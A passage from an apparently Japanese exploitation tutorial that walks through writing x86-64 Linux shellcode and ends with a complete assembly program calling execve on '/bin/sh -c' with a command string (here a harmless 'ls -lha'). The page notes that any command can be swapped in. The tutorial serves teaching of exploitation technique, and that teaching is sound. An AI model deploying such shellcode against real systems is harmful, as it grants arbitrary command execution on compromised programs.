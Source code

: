 次に引数リストの用意です。これは機械語領域が書き込み可能ならmov命令でも良いですし、そうでないならスタックでも良いです。配列の終端はNULLを入れるのを忘れないようにしましょう。
```
  xor edx, edx
  push rdx
  lea rdi, [rel s_arg2]
  push rdi
  lea rdi, [rel s_arg1]
  push rdi
  lea rdi, [rel s_arg0]
  push rdi
  mov rsi, rsp
  ...
s_arg2: db "/bin/ls -lha", 0
s_arg1: db "-c", 0
s_arg0: db "/bin/sh", 0
```

<div class="balloon_l">
  <div class="faceicon"><img src="../img/piyo.jpg" alt="ひよこ先生" ></div>
  <p class="says">
    x86-64では32-bitのレジスタに結果を代入すると上位32-bitは0になるよ。
    だから「xor eax,eax」で確実にraxを0にできるんだね。
  </p>
</div>

こちらもcall命令を利用することで短くできますが、読みやすさは若干失われます。
```
  xor edx, edx
  push rdx
  call s_arg2
  db "/bin/ls -lha", 0
s_arg2:
  call s_arg1
  db "-c", 0
s_arg1:
  call s_arg0
  db "/bin/sh", 0
s_arg0:
  mov rsi, rsp
```

最後にシステムコールです。raxがシステムコール番号、rdi, rsi, rdxの順に第一、第二、第三引数であることくらいは覚えておきましょう。`execve`が59番、`exit`が60番、`read`, `write`, `open`がそれぞれ0, 1, 2番など、よく使うシステムコール番号も覚えておければシェルコードを書くときに手が止まることはないです。

これだけで、文字列を変えればどんなコマンドでも実行できる便利なシェルコードができました。
```
global _start
section .text
_start:
  xor edx, edx
  push rdx
  lea rdi, [rel s_arg2]
  push rdi
  lea rdi, [rel s_arg1]
  push rdi
  lea rdi, [rel s_arg0]
  push rdi
  mov rsi, rsp
  mov eax, 59
  syscall
  int3

s_arg0: db "/bin/sh", 0
s_arg1: db "-c", 0
s_arg2: db "/bin/ls -lha", 0
```

[^1]: write(w)とexecute(x)が排他的(^)である、つまり書き込み可能かつ実行可能な領域は存在しないことを意味する言葉